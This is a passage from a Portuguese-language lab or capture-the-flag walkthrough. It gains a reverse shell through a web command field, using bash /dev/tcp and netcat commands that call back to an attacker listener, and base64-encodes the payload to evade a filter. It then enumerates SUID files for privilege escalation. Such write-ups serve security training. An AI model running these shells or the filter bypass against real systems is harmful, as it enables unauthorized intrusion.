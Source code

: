 Primeiramente, para sabermos o bash disponível:

```bash
which bash
```

```bash
/usr/bin/bash -i >& /dev/tcp/192.168.56.1/4444 0>&1
```

ou

```bash
nc -e /bin/bash 192.168.56.1 4444
```

E na nossa máquina temos de estar ouvindo a porta 4444 com netcat:

```bash
nc -lnvp 4444
```

Mas isso não vai dar certo e tomaremos **Remote connections are forbidden.**
Para contornar, codificaremos para base64 o nosso comando, ficando assim:

YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNDQ0NCAwPiYxJwo= (Primeira opção)

Sendo assim, executaremos o seguinte no campo de comando do site:

```bash
echo 'YmFzaCAtYyAnYmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEvNDQ0NCAwPiYxJwo=' | base64 -d | bash
```

Obtivemos o reverse shell

# Privilege Escalation

O próximo passo é procurar uma escalação de privilégio

Primeiro, procuraremos por uma permissão de root em arquivos.

```bash
find / -perm -u=s -type f 2>/dev/null
```

Como saída, temos:

```bash
bash-5.1$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/usr/bin/chage
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/su
/usr/bin/mount
/usr/bin/umount
/usr/bin/pkexec
/usr/bin/passwd
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/at
/usr/bin/sudo
/usr/bin/reset_root
/usr/sbin/grub2-set-bootflag
/usr/sbin/pam_timestamp_check
/usr/sbin/unix_chkpwd
/usr/sbin/mount.nfs
/usr/lib/polkit-1/polkit-agent-helper-1
```
